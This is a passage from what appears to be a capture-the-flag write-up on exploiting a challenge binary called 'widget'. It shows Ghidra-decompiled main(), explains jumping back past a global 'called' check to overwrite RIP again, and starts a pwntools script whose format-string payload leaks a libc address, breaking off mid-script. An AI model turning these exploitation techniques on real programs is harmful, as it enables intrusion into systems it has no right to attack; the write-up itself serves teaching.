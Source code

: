 <details><summary>current code</summary></details>

### Returning to main

Now we have a libc leak, we need to return to `main` so that we can overwrite RIP again. However, the `called` global variable of the program is already set and checked at the start of main, so we can't just return to `main` directly.

```c
void main(void)

{
  int local_2c;
  char local_28 [24];
  __gid_t local_10;
  uint local_c;
  
  ...

  if (called != 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  called = 1;

  ...
}
```

Looking at ghidra, we can try to return to after the `called` is check and before `Amount` is prompted. This is at address **0x4013e3** of the binary.

<figure><img src="../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption><p>main() in ghidra</p></figcaption></figure>

We can check if this works in our pwntools.

```python
#!/usr/bin/env python3

from pwn import *
import subprocess

def amount(m):
    global p
    p.sendlineafter(b'Amount: ',m)

def content(m):
    global p
    p.sendlineafter(b'Contents: ',m)

elf = context.binary = ELF("./widget",checksec=False)
url,port = "challs.actf.co", 31320

if args.REMOTE:
    p = remote(url,port)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p)
    
padding = b'A'*32

# first run
payload = b'%33$p|' # leaks libc
payload += b'A' * (32-len(payload))
```